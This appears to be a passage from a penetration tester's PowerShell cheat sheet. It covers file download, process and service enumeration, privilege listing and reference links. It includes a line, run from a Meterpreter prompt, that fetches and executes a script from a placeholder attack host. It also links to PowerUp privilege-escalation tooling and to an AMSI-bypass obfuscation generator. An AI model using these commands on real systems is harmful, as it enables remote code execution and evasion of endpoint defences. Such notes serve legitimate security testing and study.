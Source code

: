 ##### [Execute PowerUp.ps1](../../../../Tools/Shells/Windows/PowerShell/PowerSploit/PowerUp.md)

# Download File
##### Download File To Disk
```bash
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```

### Download File To String
##### From Meterpreter PowerShell Prompt
```bash
PS > iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/[Source File]')
```

# Processes
##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```

```bash
whoami /priv
```

# Services
##### Get List of Running Services
```powershell
powershell Get-Service
```

# [From Meterpreter](../../../Metasploit/README.MD#PowerShell)

# References
##### [Generates obfuscated PowerShell snippets](https://amsi.fail/)

##### [Approved Verbs for PowerShell Commands](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [Everything you wanted to know about the if statement](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-if?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [How to run a PowerShell script from the command prompt?](https://www.tutorialspoint.com/how-to-run-a-powershell-script-from-the-command-prompt)

##### [Learn X in Y minutes](https://learnxinyminutes.com/docs/powershell/)

##### [Powershell](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powershell.html)

##### [PowerShell Documentation](https://docs.microsoft.com/en-us/powershell/)

##### [PowerShellMafia](https://github.com/PowerShellMafia)

##### [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

##### [Use Windows PowerShell to search for files](https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/)

##### [Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2&viewFallbackFrom=powershell-7.1)